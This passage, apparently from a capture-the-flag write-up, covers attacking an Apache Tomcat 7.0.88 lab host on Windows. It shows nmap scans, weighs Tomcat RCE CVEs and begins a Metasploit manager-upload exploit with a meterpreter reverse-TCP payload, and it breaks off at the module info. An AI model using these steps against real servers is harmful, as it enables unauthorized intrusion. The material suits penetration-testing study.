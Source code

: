 ```
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/

Nmap done: 1 IP address (1 host up) scanned in 109.18 seconds
```
nmap returns only a DOS vulnerability which is not interesting in our case.
### Apache Tomcat CVEs
Let's look at the CVEs. It seems to have an important [list of vulnerabilities](https://www.cybersecurity-help.cz/vdb/apache_foundation/apache_tomcat/7.0.88/), specially two RCEs: [CVE-2020-9484](https://www.cybersecurity-help.cz/vulnerabilities/28158/) and [CVE-2019-0232](https://www.cybersecurity-help.cz/vulnerabilities/18236/).
The second vulnerability is only exploitable on Windows. Let's use nmap to check the target OS:
```
$sudo nmap -O -oN nmap_os 10.129.136.9
[sudo] password for pierre: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 19:13 CEST
Nmap scan report for 10.129.136.9
Host is up (0.020s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.06 seconds
```
It is very likely that the OS is Windows and so make this vulnerability exploitable. Moreover, it seems to exist an MSF exploit available on [exploit-db](https://www.exploit-db.com/exploits/47073). However, it requires a CGI script to exploit the vulnerability.
The first vulnerability is on file upload and there is no upload form is what we list before.
### Deprecated API
Another interesting issue could be the examples using the deprecated API but I have not been able to find any exploitable vulnerability.
### Manager application
It is possible to upload a WAR application on the server and MetaSploit has an exploit for that: `exploit/multi/http/tomcat_mgr_upload`.
## Exploitation
Let's try to exploit the server by uploading an application using MetaSploit module `exploit/multi/http/tomcat_mgr_upload`:
```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> info

       Name: Apache Tomcat Manager Authenticated Upload Code Execution
     Module: exploit/multi/http/tomcat_mgr_upload
   Platform: Java, Linux, Windows
       Arch: 
```